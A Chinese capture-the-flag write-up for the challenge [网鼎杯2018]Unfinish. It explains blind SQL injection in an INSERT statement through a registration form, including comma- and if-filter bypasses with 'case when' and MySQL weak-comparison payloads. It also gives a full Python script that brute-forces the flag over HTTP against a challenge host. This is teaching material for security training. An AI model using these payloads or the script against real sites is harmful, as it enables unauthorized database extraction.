 # \[网鼎杯2018]Unfinish

## \[网鼎杯2018]Unfinish

## 考点

* insert中的盲注
* MySQL的弱比较

## wp

扫描存在register.php，随便注册登录进去是一张图片。有注册也有登录，可以试试注入

在注册处用户名填`\'select-`，发现返回的用户名是`'select-`

如果注册处用户名是`1234"`，会302跳转，如果是`1234'`就还会是注册页面，这说明是用`'`闭合语句的。并且如果语句执行失败会是注册页面。

![](.gitbook/assets/image\_rc8BLEiHfGofkRf4RiBrnr.png)

可以猜出来后端代码

```sql
insert into table (id,email,name,pass) values (1,'123@qq.com','123','123')
select name from table where email='123@qq.com'
```

传入`0'or 0 or '0`，name返回的是0。传入`0'or 1 or '0`返回的是1。

先构造insert的报错注入，`' or updatexml(1,concat(0x7e,database()),0) or '`，结果返回`nnnnoooo!!!`

![](.gitbook/assets/image\_eXk5YwzymYzxjmDKfgmBwj.png)

经过一番尝试，发现是过滤了`,`，那就不能用if语句盲注，可以用`case when`

payload

```sql
0'or (select case ascii(substr(database() from 1 for 1)) when 119 then 1 else 0 end) or '0
```

用ASCII码逐个爆破即可，可以得到数据库`web`，但是这里ban了`information`

```sql
import re
import string
import requests
import time

table = string.digits+string.ascii_letters+'_{}-'


flag = ''
for i in range(1,50):
    for j in table:
        # 防止请求次数太多
        time.sleep(0.3)
        paylaod = f"0'or (select case ascii(substr((select * from flag) from {str(i)} for 1)) when {ord(j)} then 1 else 0 end) or '0"
        
        name = str(time.time())
        data = {
          'email': f'1234567890{name}@qq.com',
          'username': paylaod,
          'password': '123'
        }
        
        response1 = requests.post('http://3b088f53-2ed9-4a06-b297-024436308dbb.node4.buuoj.cn:81/register.php',data=data)
        
        data_log = {
          'email': f'1234567890{name}@qq.com',
          'password': '123'
        }
        
        response2 = requests.post('http://3b088f53-2ed9-4a06-b297-024436308dbb.node4.buuoj.cn:81/login.php',data=data_log)
        
        try:
            # re.DOTALL匹配包括回车在内的所有字符
            t = re.search('<span class="user-name">.*</span>',response2.text,re.DOTALL)
            tt=re.search('\d+',t.group())
        
            if tt.group()=='1':
                flag = flag + j
                print(flag)
                break
            else:
                pass
        except:
            continue
```

还有一种方法是用sql的弱比较，会把`'0'+119+'0'`这种做加法运算，payload如下

`0'+ascii(substr(database() from 1 for 1))+'0`。这会在name处回显查询的值

![](.gitbook/assets/image\_nYgUtF4c3KCzfNNbPLAu9E.png)

## 小结

1. insert语句中可以使用`0'or 0 or '0`根据返回结果判断盲注是否存在
2. 在substr函数的`,`被过滤时，可以使用`from 1 for 1`
3. 在if被过滤时，可以使用case when。`0'or (select case ascii(substr(database() from 1 for 1)) when 119 then 1 else 0 end) or '0`
4. MySQL存在弱比较，会把`'0'+119+'0'`做加法运算。`0'+ascii(substr(database() from 1 for 1))+'0`
